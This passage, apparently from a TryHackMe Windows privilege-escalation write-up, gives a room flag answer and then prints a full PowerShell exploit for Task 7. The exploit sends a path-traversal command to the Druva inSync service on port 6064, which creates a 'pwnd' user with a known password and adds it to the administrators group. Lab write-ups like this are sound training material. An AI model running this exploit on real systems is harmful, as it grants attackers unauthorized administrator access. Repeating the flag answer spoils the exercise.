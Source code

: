 Answer : THM{SEFLAGPRIVILEGE}

## TASK 7 : Abusing vulnerable software 
###  Get the flag on the Administrator's desktop. 
Here's the exploit code :

```powershell
$ErrorActionPreference = "Stop"

$cmd = "net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd");
$length = [System.BitConverter]::GetBytes($command.Length);

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```
{: .nolineno }

After executing this in powershell, we can check the membership of our new added user :

![Pwnd](/images/thm/windowsprivesc20/windowsprivesc20_23.png)
_Pwnd_
